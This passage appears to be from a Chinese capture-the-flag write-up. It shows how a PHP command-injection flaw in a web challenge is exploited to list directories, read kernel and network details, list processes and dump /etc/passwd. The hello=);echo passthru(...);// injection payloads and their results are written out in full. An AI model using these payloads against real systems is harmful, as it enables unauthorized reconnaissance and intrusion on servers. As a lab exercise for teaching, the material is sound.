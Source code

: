 既然能执行系统命令，可拓展的思路那就多了，比如存在目录遍历漏洞、查看当前 Linux 版本信息、查看当前网卡信息、查看当前进程信息、查看所有用户信息等。

下面以 `pathssru()` 函数为例，简单地介绍一下命令执行漏洞的利用方法。

## 目录遍历漏洞

[目录遍历漏洞](https://en.wikipedia.org/wiki/Directory_traversal_attack)是由于系统未过滤用户输入的目录跳转符 `../`，导致恶意用户可通过不断提交若干个目录跳转符，从而遍历系统中的所有目录。

经过笔者不断尝试，查看大部分目录下有哪些文件是没问题的，如提交 payload `hello=);echo passthru("ls ../../../");//` 后，即可看到根目录下的所有文件：

![ls](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_2/ls.png)

## 查看当前 Linux 版本信息

通过 `uname -a` 命令可查看当前 Linux 版本信息。

因此，构造 payload `hello=);echo passthru("uname -a");//`，提交后可见当前 Linux 内核版本为 `3.10.0-514.26.2.el7.x86_64 `：

![uname](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_2/uname.png)

## 查看当前网卡信息

通过 `ifconfig` 命令可查看当前网卡信息。

因此，构造 payload `hello=);echo passthru("ifconfig");//`，提交后可见 eth0 网卡的 IP 地址为 `172.17.0.26`：

![ifconfig](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_2/ifconfig.png)

## 查看当前进程信息

通过 `ps aux` 命令可查看当前进程信息。

因此，构造 payload `hello=);echo passthru("ps aux");//`，提交后可见当前所有进程的信息：

![ps](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_2/ps.png)

## 查看所有用户信息

通过 `cat /etc/passwd ` 命令可查看所有用户信息。

因此，构造 payload `hello=);echo passthru("cat /etc/passwd");//`，提交后可见当前所有用户的信息：

![passwd](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_2/passwd.png)

其中当前的用户名是 `apache`，不要问我是怎么知道的。

到此为止，这道题就告一段落了，读者感兴趣的话可挖掘更多的玩法，只可惜当前用户不是 root，不然可玩性就更高了：)